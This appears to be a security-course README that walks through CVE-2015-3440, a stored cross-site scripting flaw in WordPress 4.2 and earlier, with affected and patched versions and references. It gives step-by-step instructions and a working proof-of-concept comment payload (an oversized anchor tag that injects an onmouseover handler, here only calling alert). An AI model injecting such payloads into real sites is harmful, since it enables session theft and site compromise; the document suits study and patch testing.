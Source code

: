 # Steps
#### Step 1 - Gain trust from the admin
######	If you have the ability to post skip to step 3
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>




# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Unauthenticated Stored Cross-Site Scripting (XSS)

#### CVE-2015-3440 



# Affected versions and patches
#### Affected version
###### WordPress <= 4.2 

#### Patched in
###### version 4.2.1



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/XSS/Demo.gif "XSS Demo")

# References
#### https://klikki.fi/adv/wordpress2.html
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440
